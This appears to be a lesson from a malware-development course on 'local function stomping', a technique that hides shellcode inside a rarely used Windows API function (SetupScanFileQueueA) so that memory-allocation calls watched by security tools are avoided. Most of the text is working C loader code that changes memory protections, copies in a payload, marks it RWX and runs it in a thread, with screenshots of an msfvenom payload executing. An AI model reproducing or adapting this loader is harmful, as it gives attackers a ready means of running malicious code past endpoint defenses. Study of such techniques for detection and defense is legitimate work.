 # 5.2 Local Function Stomping Injection

### Introduction

The previously demonstrated mapping injection modules were used to avoid the usage of `VirtualAlloc/Ex` WinAPI calls. This module will demonstrate another method that avoids the usage of these WinAPIs.

### Function Stomping

The term "stomping" refers to the act of overwriting or replacing the memory of a function or other data structure in a program with different data.

Function stomping is a technique where the original function's bytes are replaced with new code resulting in the function being replaced or no longer working as intended. Instead, the function will execute different logic. To implement this, a sacrificial function address is required to be stomped.

### Choosing a Target Function

Retrieving the address of a function locally is simple, but which function is being retrieved is the main concern with this technique. Overwriting a commonly used function can result in the uncontrolled execution of the payload or the process can crash. Therefore it should be clear that targeting functions exported from `ntdll.dll`, `kernel32.dll` and `kernelbase.dll` is risky. Instead, less commonly used functions should be targeted such as `MessageBox` since it will be rarely used by the operating system or other applications.

### Using The Stomped Function

When a target function's bytes are replaced with that of the payload's, the function cannot be used anymore unless it is specifically for payload execution. For example, if the target function is `MessageBoxA` then the binary should only call `MessageBoxA` once, which is when the payload will be executed.

### Local Function Stomping Code

For the code demonstration below, the target function is [SetupScanFileQueueA](https://learn.microsoft.com/en-us/windows/win32/api/setupapi/nf-setupapi-setupscanfilequeuea). This is a completely random function but is unlikely to cause any problems if it's overwritten. Based on Microsoft's documentation, the function is exported from `Setupapi.dll`. Therefore the first step would be to load `Setupapi.dll` into the local process memory using `LoadLibraryA` and then retrieve the function's address using `GetProcAddress`.

The next step would be to stomp the function and replace it with the payload. Ensure the function can be overwritten by marking its memory region as readable and writable using `VirtualProtect`. Next, the payload is written into the function's address and finally, `VirtualProtect` is used again to mark the region as executable (`RX` or `RWX`).

```c

#define		SACRIFICIAL_DLL          "setupapi.dll"
#define		SACRIFICIAL_FUNC         "SetupScanFileQueueA"


// ...

BOOL WritePayload(IN PVOID pAddress, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {

	DWORD	dwOldProtection		= NULL;


	if (!VirtualProtect(pAddress, sPayloadSize, PAGE_READWRITE, &dwOldProtection)){
		printf("[!] VirtualProtect [RW] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	memcpy(pAddress, pPayload, sPayloadSize);

	if (!VirtualProtect(pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("[!] VirtualProtect [RWX] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}



int main() {

	PVOID		pAddress	= NULL;
	HMODULE		hModule		= NULL;
	HANDLE		hThread		= NULL;


	printf("[#] Press <Enter> To Load \"%s\" ... ", SACRIFICIAL_DLL);
	getchar();

	printf("[i] Loading ... ");
	hModule = LoadLibraryA(SACRIFICIAL_DLL);
	if (hModule == NULL){
		printf("[!] LoadLibraryA Failed With Error : %d \n", GetLastError());
		return -1;
	}
	printf("[+] DONE \n");



	pAddress = GetProcAddress(hModule, SACRIFICIAL_FUNC);
	if (pAddress == NULL){
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return -1;
	}


	printf("[+] Address Of \"%s\" : 0x%p \n", SACRIFICIAL_FUNC, pAddress);


	printf("[#] Press <Enter> To Write Payload ... ");
	getchar();
	printf("[i] Writing ... ");
	if (!WritePayload(pAddress, Payload, sizeof(Payload))) {
		return -1;
	}
	printf("[+] DONE \n");



	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();

	hThread = CreateThread(NULL, NULL, pAddress, NULL, NULL, NULL);
	if (hThread != NULL)
		WaitForSingleObject(hThread, INFINITE);

	printf("[#] Press <Enter> To Quit ... ");
	getchar();

	return 0;

}

```

  

### Inserting DLL Into Binary

Instead of loading the DLL using `LoadLibrary` and then retrieving the target function's address with `GetProcAddress`, it's possible to statically link the DLL into the binary. Using the pragma comment compiler directive allows for this, as shown below.

```c
#pragma comment (lib, "Setupapi.lib") // Adding "setupapi.dll" to the Import Address Table
```

The target function can then be simply retrieved using the address-of-operator (e.g. `&SetupScanFileQueueA`). The code snippet below updates the previous code snippet to use the pragma comment directive.

```c

#pragma comment (lib, "Setupapi.lib") // Adding "setupapi.dll" to the Import Address Table

// ...


int main() {

	HANDLE		hThread			= NULL;


	printf("[+] Address Of \"SetupScanFileQueueA\" : 0x%p \n", &SetupScanFileQueueA);


	printf("[#] Press <Enter> To Write Payload ... ");
	getchar();
	printf("[i] Writing ... ");
	if (!WritePayload(&SetupScanFileQueueA, Payload, sizeof(Payload))) { // Using the address-of operator
		return -1;
	}
	printf("[+] DONE \n");



	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();

	hThread = CreateThread(NULL, NULL, SetupScanFileQueueA, NULL, NULL, NULL);
	if (hThread != NULL)
		WaitForSingleObject(hThread, INFINITE);

	printf("[#] Press <Enter> To Quit ... ");
	getchar();

	return 0;

}

```

### Demo

Retrieving `SetupScanFileQueueA`'s address.

![Image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/stomp-109438900-53f68143-4143-4be4-978c-4c38e9b4f0d4.png)

  

The original bytes of the `SetupScanFileQueueA` function.

![Image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/stomp-209438901-b436065b-17a9-43b2-86a9-da708329b4c7.png)

  

Replacing the function's bytes with the Msfvenom calc payload.

![Image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/stomp-309438902-a96c9c50-7ac1-42f9-918f-992a2ef749d6.png)  

Running the payload.

![Image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/stomp-409438904-bfacfa89-e6cb-4903-9cd1-7a55c9b66697.png)